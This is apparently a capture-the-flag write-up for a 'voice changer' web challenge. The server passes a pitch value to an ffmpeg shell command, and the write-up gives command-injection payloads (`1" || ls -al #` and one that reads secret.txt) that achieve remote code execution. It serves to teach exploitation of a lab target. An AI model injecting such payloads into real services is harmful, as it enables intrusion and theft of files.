




# voice changer


in this challenge we were given a link where we can record voice, set a pitch 


after we submit we can see this output
```bash
$ ffmpeg -i "/app/upload/72164cf0-b40e-11ee-987f-953cab8ae888.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/72164cf0-b40e-11ee-987f-953cab8ae888.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  configuration: --prefix=/usr --disable-librtmp --disable-lzma --disable-static --disable-stripping --enable-avfilter --enable-gpl --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libdav1d --enable-libdrm --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libharfbuzz --enable-libmp3lame --enable-libopenmpt --enable-libopus --enable-libplacebo --enable-libpulse --enable-librav1e --enable-librist --enable-libsoxr --enable-libsrt --enable-libssh --enable-libtheora --enable-libv4l2 --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxcb --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-lto=auto --enable-lv2 --enable-openssl --enable-pic --enable-postproc --enable-pthreads --enable-shared --enable-vaapi --enable-vdpau --enable-version3 --enable-vulkan --optflags=-O3 --enable-libjxl --enable-libsvtav1 --enable-libvpl
  libavutil      58. 29.100 / 58. 29.100
  libavcodec     60. 31.102 / 60. 31.102
  libavformat    60. 16.100 / 60. 16.100
  libavdevice    60.  3.100 / 60.  3.100
  libavfilter     9. 12.100 /  9. 12.100
  libswscale      7.  5.100 /  7.  5.100
  libswresample   5.  0.100 /  5.  0.100
  libpostproc    57.  3.100 / 57.  3.100
[ogg @ 0x7fbc1f998600] Format ogg detected only with low score of 1, misdetection possible!
[in#0 @ 0x7fbc1fa8e8c0] Error opening input: End of file
Error opening input file /app/upload/72164cf0-b40e-11ee-987f-953cab8ae888.ogg.
Error opening input files: End of file
```

it seems that the website is using ffmpeg on the command line to change the pitch.

lets see the requests using [burp suite](https://portswigger.net/burp)



in burp we can see that the file is uploaded to the sever so i tried to upload different types of files but it didn't work then i saw the pitch parameter is used with ffmpeg in the command line.



so I started playing around. I set this value

 `1" || ls -al #`

 and I got this



we got an RCE, change the payload to:

`1" || cd .. && cat secret.txt #`


